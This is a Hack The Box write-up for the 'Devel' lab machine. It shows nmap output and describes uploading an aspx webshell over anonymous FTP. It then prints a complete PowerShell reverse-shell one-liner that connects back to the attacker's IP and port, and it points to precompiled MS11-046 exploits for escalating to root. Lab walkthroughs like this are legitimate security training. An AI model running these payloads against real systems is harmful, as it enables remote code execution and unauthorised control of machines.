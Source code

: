 ```yaml
---
featured_image: "/posts/Devel/devel.png"
title : HTB 14/20 Devel
published : true
date: 2021-04-23
author : PS
---
```

## Foothold
*nmap*
```bash
Nmap scan report for 10.10.10.5
Host is up (0.10s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.23 seconds
```
First let's try to get into the ftp
![[Pasted image 20210427194341.png]]

![[Pasted image 20210427194409.png]]
Nothing interesting  
Let's move to the port 80  
![[Pasted image 20210427194512.png]]
Ok, since the same files we see on the web page are the same as in the ftp , and we can use put on the ftp , I assume that we need to upload and open a  shell on the ftp and since is iis it has to be aspx  
https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmdasp.aspx
![[Pasted image 20210427195656.png]]
## Getting User
Run 
```bash
powershell.exe -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.7',6969);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
And have a nc in the back  
And BOOM got user
## Getting Root
![[Pasted image 20210427200148.png]]
Always run systeminfo
![[Pasted image 20210427200342.png]]
After running Watson  on the machine , it reveals that is vuln to MS11-046 and many more , so we are gonna search for an exploit  
After searching for a while I've stumbled upon this super mega nice repo with exploits 
https://github.com/abatchy17/WindowsExploits
https://github.com/abatchy17/WindowsExploits/tree/master/MS11-046
PRECOMPILED !!! this is wild :)))  
Use smb to get the exploit on the machine and get root  
PS out 
